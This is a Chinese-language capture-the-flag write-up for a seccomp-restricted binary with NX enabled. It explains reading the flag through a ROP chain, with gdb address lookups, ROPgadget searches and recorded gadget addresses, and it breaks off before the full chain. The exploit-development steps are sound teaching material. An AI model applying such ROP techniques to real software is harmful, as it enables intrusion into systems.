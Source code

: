 ```c

    return 0;
}
```
題目用 seccomp 限制只能使用的 syscall 只有\
open、read、write、exit、exit_group，不能使用 exec 拿 shell

下 ```checkset``` 指令查看有哪些保護機制
![](assets/2-1.png)
可得知有啟用 NX，無法執行 shellcode\
原本這題如果沒有啟用 NX 的話就可寫一段 shellcode 去讀 flag 的值\
雖然無法執行 shellcode，不過仍可透過串 ROP 去讀出 flag 的值
![](assets/2-2.png)

首先用 gdb 找出 fn 和 ROP 這兩個全域變數的 address
```sh
x &fn
x &ROP
```
![](assets/2-3.png)
找到後把 address 存起來
```python
ROP_addr = 0x4e3360
fn_addr = 0x4e3340
```
接下來按照講師上課的解說，串一段 ROP 來讀 flag 的值\
而 fn 裡面存的值會是我們給的 flag 檔案路徑\
用 ROPgadget 指令獲取可以用的 gadget 並將結果輸出至另一個檔案裡 (out)
```sh
ROPgadget --multibr --binary ./chal > out
```
接著使用 cat 指令和 grep 指令從 out 檔案裡過濾出我們想找的 gadget
```sh
cat ./out | grep "要找的gadget"
```
```python
# ROPgadget --multibr --binary ./chal > out
pop_rdi_ret = 0x4038b3 # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x402428 # cat ./out | grep "pop rsi ; ret"
```